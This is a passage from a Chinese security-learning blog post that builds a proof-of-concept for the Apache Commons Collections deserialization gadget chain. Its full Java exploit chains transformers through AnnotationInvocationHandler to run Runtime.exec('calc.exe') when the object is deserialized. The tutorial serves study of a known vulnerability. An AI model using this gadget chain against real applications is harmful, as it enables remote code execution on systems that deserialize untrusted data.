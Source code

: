 但是运行之后会发现，报错了，意思是说getMethod方法不存在，并且根据下面的调用栈可以得出的结论是InvokerTransformer.transform方法的参数是有问题的，发现传入的value值不是我们想要的Runtim.class：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/2714dff9a828efeab182554f96b02ecb.png)
于是我们想实现的效果是传入什么就返回什么，需要ConstantTransformer类，将value值转换为Runtime.class，所以最终poc为：

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.annotation.Target;

public class test01 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        //将数组transformers传给ChainedTransformer，构造利用链
        Transformer transformerChain = new ChainedTransformer(transformers);
        //invokertransformer.transform(runtime);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","pear");
        Map transformedmap = TransformedMap.decorate(map,null,transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class,transformedmap);
        //序列化
        FileOutputStream fileOutputStream = new FileOutputStream("serialize_1.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(instance);
        objectOutputStream.close();
        //反序列化
        FileInputStream fileInputStream = new FileInputStream("serialize_1.txt");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object result = objectInputStream.readObject();
        objectInputStream.close();
    }
}

```
